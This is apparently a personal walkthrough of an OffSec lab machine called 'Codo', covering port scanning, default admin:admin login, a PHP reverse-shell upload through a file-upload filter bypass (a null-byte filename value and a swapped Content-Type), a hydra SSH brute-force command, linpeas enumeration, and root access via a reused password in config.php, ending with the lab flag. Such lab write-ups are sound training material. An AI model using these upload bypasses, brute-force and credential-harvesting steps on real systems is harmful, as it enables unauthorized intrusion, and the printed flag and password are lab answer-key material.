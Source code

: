 ```yaml
---
box_name: Codo
author: James Heringer
platform: Offsec
date: 2025-10-12
tags: []
difficulty: easy
my_rating: easy
---
```

# Codo
- 192.168.193.23
## TLDR Summary 
1. Enumerate, identify webserver running CODO
2. Feroxbuster shows Codo has /admin/ page
3. Successful login to admin portal,  wtih default  creds admin : admin
4. *searchsploit codo*  gives us a listing for a codo forum, with multiple exploits
5. `searchsploit -x 50978` gives us a   path to upload a file  with RCE  `/sites/default/assets/img/attachments/`
6. In admin  panel, global config, *Upload logo for your forum*, we  are able to upload simple php rev shell
7. Activate RevSHell using our previously discovered path, of  `http://url/sites/default/assets/img/attachments/RevShell.php`
8. Have  shall on server, whoami shows  *www-data*
9. Copy over linpeas.sh and run, outputing to file
10. Linpeas output *passwords in* section shows config.php file with password
	- cat fastpeas.txt | grep -C 5 -i 'passwords in '
11. We use this password and su root,  to get flag
## Enum
```bash
sudo nmap -Pn -p- -T4 192.168.193.23 --reason 
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61

sudo nmap  -p 22,80 -T4 192.168.193.23 -sC -sV -vv     

feroxbuster -u  http://192.168.193.23 -d 2 -k --silent 
```
- Browsing to the webpage, we find a register link
- Let's register! Send to burp
- Created new account *bob:password*
- Edit profile, there is a *change avatar* function, which looks for a file upload
- Changed avatar, with test.txt dummy text file and saved changes.
- Right-clicked avatar image, revealed its location - verified in curl
```bash
# verify file location
http://192.168.193.23/sites/default/assets/img/profiles/icons/68eb735214d67.txt
```
- attempted to upload  simple-php rev shell, but php extension not allowed
- Was able to upload as jpg,  but no execution
- Attempting client-side filter bypas
- We know we can upload .jpg, .txt, but when we upload our php code  as jpg, it doesn't execute.
- Burp Intercept ON, Taking post, and swapping content type
- Content-Type: image/jpeg  Content-Type: application/x-php
```bash
codo.php%00.png%00.jpg"

```

- http://192.168.193.23/admin/index.php
- logged in with admin:admin
- Under global settings, added php to the allowed upload types
- Added allowed Mimetypes : application/x-php
- Now we changed bobs Avatar again with  our  codo.php, browsed to it, and we  are on the box with a shell
##  PrivEsc
- transferrered linpeas.sh script, ouput
- 
```bash 
# sudo version https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.193.23  
# gave up after 5 min

# check for  world writable files
find /  -type f -perm 777  2>/dev/null


```

- In  www directory, there is a file named : */var/www/html/sites/default/config.php* 
```php
  $config = array (
  'driver' => 'mysql',
  'host' => 'localhost',
  'database' => 'codoforumdb',
  'username' => 'codo',
  'password' => 'FatPanda123',
  'prefix' => '',
  'charset' => 'utf8',
  'collation' => 'utf8_unicode_ci',
);

```
##  FLAG

- root : FatPanda123
- 232d65f9126bf6f3ea6c9cc1fdb7c214

